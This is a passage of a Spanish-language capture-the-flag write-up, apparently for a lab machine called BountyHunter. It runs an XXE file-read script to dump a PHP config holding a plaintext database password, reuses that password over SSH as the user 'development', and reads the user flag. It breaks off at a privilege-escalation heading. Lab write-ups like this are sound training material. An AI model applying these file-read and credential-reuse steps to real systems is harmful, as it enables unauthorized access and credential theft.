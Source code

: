 ```bash
❯ python3 xxe_lfi.py /var/www/html/db.php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

Probamos de autenticarnos al `SSH` con estas credenciales y con el usuario `development` que encontramos en el archivo `/etc/passwd` que disponía de `bash` para comprobar si esta contraseña es reutilizada o no.

Finalmente logramos obtener acceso al sistema y logramos visualizar la flag **user.txt**.

```bash
❯ sshpass -p 'm19RoAU0hP41A1sTsq6K' ssh development@10.10.11.100
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 03 Mar 2025 10:45:52 PM UTC

  System load:           0.0
  Usage of /:            24.0% of 6.83GB
  Memory usage:          14%
  Swap usage:            0%
  Processes:             215
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.100
  IPv6 address for eth0: dead:beef::250:56ff:fe94:2767


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Wed Jul 21 12:04:13 2021 from 10.10.14.8
development@bountyhunter:~$ cat user.txt 
f07029***********************
```

## Privilege Escalation

### Abusing sudoers privilege
